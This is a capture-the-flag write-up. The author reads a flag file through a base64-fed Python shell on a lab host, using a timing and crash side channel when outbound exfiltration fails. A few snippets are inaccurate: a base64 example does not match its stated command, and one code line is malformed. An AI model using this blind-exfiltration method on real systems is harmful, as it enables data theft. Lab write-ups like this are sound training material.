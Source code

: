 ## snakebtte

nmap 10.10.0.229 -- port 9999/TCP is open

```
$ telnet 10.10.0.229 9999
Trying 10.10.0.229...
Connected to 10.10.0.229.
Escape character is '^]'.
Python 133.7.0 (default, Jul 15 2042, 10:44:58)
[GCC 168.1.1 20180531] on linix
Type "help", "copyright", "credits" or "license" for more information. Long live the Waterlord!
>>> dummy
RG8gbm90IHR5cGUgdW5lbmNyeXB0ZWQhIFRoZSBkaXJ0LXBlb3BsZSBtaWdodCBiZSBsaXN0ZW5pbmcK
>>> 
```

This looked very familiar - it's a modified python prompt.
The text is base64 and decodes to: "Do not type unencrypted! The dirt-people might be listening"
So my guess was python code can be send base64-encoded. e.g.:

import os => aW1wb3J0IHRpbWUK

If you send invalid python code, the shell will disconnect.
However, commands issued do not return any output, except another command prompt ">>>".

First thing was to find out the pyton version:
```
import sys
import time
sys.version[0]=='3' and time.sleep(5)

# translates to:
aW1wb3J0IHN5cwo=
aW1wb3J0IHRpbWUK
c3lzLnZlcnNpb25bMF09PSczJyBhbmQgdGltZS5zbGVlcCg1KQo=
```

The shell indeed paused for 5 seconds, so we're using python3 here.

I guessed the path of the FLAG.TXT correctly (trying to open a nonexistent file will cause the shell to terminate) .

It was impossible to do data exfiltration through os.system(), as the system could not reach the outside.
Thus a time-based method was used.

Code:

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
"(data)[0]=='D' and crash
dummy
dummy
exit==
```

0 is the position in the file we're trying to brute-force, D is the character - we already know that flags are in the form DORF18{...}
And this verified that FLAG.TXT is the correct file.

Our goal is to compare each byte of the FLAG.TXT file to a charset, from previous flags I choose the following, in order to account for 1337-speak and _ instead of space in order to speed up the exfiltration of the flag:

_ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 3 4 5 7 a b c d e f g h i j k l m n o p q r s t u v w x y z . - 2 6 8 9 { }

The dummy makes the program return the text from the beginning and is used to verify that there was indeed no disconnect.

I wrapped this up in some very ugly bash code + netcat and measured the time for each run, exfiltrating the flag within ~1.5 hours.
This was very slow, and only afterwards I noticed I could've used divide-and-conquer (pasting a lot more lines at once) to speed this up reasonably.
However, I managed to get the Flag about 10 minutes before the CTF was shut down. :)

### FLAG
DORF18{Y0U_S33m_T0_Kn0W_BASE64}



